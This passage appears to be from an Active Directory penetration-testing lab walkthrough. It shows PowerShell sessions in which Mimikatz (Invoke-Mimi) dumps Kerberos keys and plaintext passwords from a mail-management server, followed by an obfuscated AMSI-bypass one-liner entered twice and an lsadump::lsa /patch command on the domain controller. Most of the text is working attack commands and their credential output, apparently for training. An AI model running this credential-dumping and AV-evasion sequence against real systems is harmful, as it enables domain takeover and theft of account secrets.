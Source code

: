 Now, load Invoke-Mimi in the remote session and execute it to extract the secrets. Note that we have already disabled AMSI for this PSSession.

```
PS C:\AD\Tools> Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt

PS C:\AD\Tools> Enter-PSSession $mailmgmt

[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'

[SNIP]

mimikatz(powershell) # sekurlsa::keys

[SNIP]

Authentication Id : 0 ; 235531 (00000000:0003980b)
Session           : Service from 0
User Name         : provisioningsvc
Domain            : US
Logon Server      : US-DC
Logon Time        : 7/2/2024 2:13:10 AM
SID               : S-1-5-21-210670787-2521448726-163245708-8602

         * Username : provisioningsvc 👤
         * Domain   : US.TECHCORP.LOCAL
         * Password : T0OverseethegMSAaccounts!! 🔑
         * Key List :
           aes256_hmac       a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a 🔑
           aes128_hmac       7ae58eac70cbf4fd3ddab37ecb07067e
           rc4_hmac_nt       44dea6608c25a85d578d0c2b6f8355c4 🔑

[SNIP]

Authentication Id : 0 ; 28896 (00000000:000070e0)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 7/2/2024 2:12:54 AM
SID               : S-1-5-96-0-0

         * Username : US-MAILMGMT$ 👤
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES 🔑
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941 🔑

[SNIP]
```

---
---

[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'